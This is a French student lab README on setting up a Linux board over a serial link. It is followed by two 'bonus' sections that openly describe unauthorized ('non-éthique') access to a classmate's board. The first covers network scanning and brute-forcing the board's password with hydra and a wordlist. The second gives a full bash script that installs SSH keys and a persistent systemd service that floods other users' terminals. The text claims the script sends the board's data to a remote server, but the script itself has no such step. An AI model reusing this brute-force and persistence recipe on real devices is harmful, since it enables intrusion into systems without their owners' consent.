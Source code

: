 # TP_Linux

## 1. Prise en main
### 1.1 Préparation de la carte SD

### 1.2 Connection par liaison série
La première connection avec la carte se fait par liaison série. À l'aide de PuTTy, une liaison est établie entre un ordinateur et le port uart (usb mini) de la carte.

Au lancement de la liaison il est necessaire de se connecter avec l'identifiant et le mot de passe renseignés lors de la configuration de la carte SD. Dans notre cas:
identifiant: root
mot de passe:

Grâce à la commande `df -h`, il est possible de connaitre la taille occupée dans la carte SD. Executer cette commande permet de voir que le système de fichier n'occupe pas l'ensemble de l'espace de la carte SD. Pour remédier à cela, nous exécutons la commande `./expan_rootfs.sh`, puis nous lançons un reboot de la cate avec la commande `./resize2fs_once`.
## 2. Module Kernel



## Bonus 1 : Hacking non-ethique 👀

Les cartes sont toutes connectées en réseau et on un mot de passe par défaut. Il est donc possible de se connecter à une carte à distance. Pour cela, il faut connaitre l'adresse IP de la carte.
On utilise un scanner d'ip pour scanner le réseau et trouver l'adresse IP des cartes connectées.

La cible est la carte d'un des groupe de la classe qui a protégé sa carte avec un mot de passe. On utilise donc un outil de bruteforce pour trouver le mot de passe de la carte. On utilise l'outil hydra avec une wordlist pour trouver le mot de passe.
La wordlist utilisée est la wordlist richelieu qui contient les mots de passe les plus utilisés en France.

On utilise une VM kali qui contient tous les outils nécessaires pour réaliser cette attaque.

![Alt text](img/image2.png)

Le mot de passe de la carte est trouvé en 4 minutes 😁.

## Bonus 2 : Scripting 👨‍💻

On a maintenant accès à la carte. On peut donc réaliser un script qui permet de récupérer les données de la carte et de les envoyer sur un serveur distant.

On va installer automatiquement le package sl sur la carte puis générer un daemon systemd qui va executer la commande sl toutes les 5 minutes. On va aussi installer une clé ssh sur la carte pour pouvoir se connecter à distance sans mot de passe.

Le script est le suivant:


```bash
#!/bin/bash

# Stop and disable the sl service if it's running
echo "Stopping and disabling the sl service if it's running"
systemctl stop sl.service
systemctl disable sl.service

# Install ssh key
echo "Running ssh-keygen"
ssh-keygen -t rsa -b 4096 -C "" -f /root/.ssh/id_rsa -N ""
echo "ssh key generated successfully"

# Display the public key
echo "Here is the public key:"
cat /root/.ssh/id_rsa.pub

# Copy ssh key
echo "Copying ssh key"
ssh-copy-id -i /root/.ssh/id_rsa.pub root@
echo "ssh key copied successfully"

# Install sl
echo "Installing sl"
apt update
apt install -y sl
echo "sl installed"

# Create command script
echo "#!/bin/bash
terminals=(\"/dev/pts/0\" \"/dev/pts/1\" \"/dev/pts/2\")
# Iterate through each terminal and send the 'sl' command
for term in \${terminals[@]}; do
  if [ -c \"\$term\" ]; then
    /usr/games/sl > \"\$term\"
    echo \"Sent 'sl' command to \$term\"
  else
    echo \"Terminal \$term not found or not accessible.\"
  fi
done

" > /usr/local/bin/command.sh


# Make command script executable
chmod +x /usr/local/bin/command.sh
echo "Command script created and made executable"

# Create daemon
echo "Creating daemon"
echo "[Unit]
Description=SL Daemon

[Service]
ExecStart=/bin/bash -c "/usr/local/bin/command.sh"
Restart=always
RestartSec=30

[Install]
WantedBy=multi-user.target" > /etc/systemd/system/sl.service

echo "Daemon created"

# Enable daemon
echo "Enabling daemon"
systemctl enable sl.service
echo "Daemon enabled"

# Start daemon
echo "Starting daemon"
systemctl start sl.service
echo "Daemon started"

```

![Alt text](image.png)

![Alt text](img/image.png)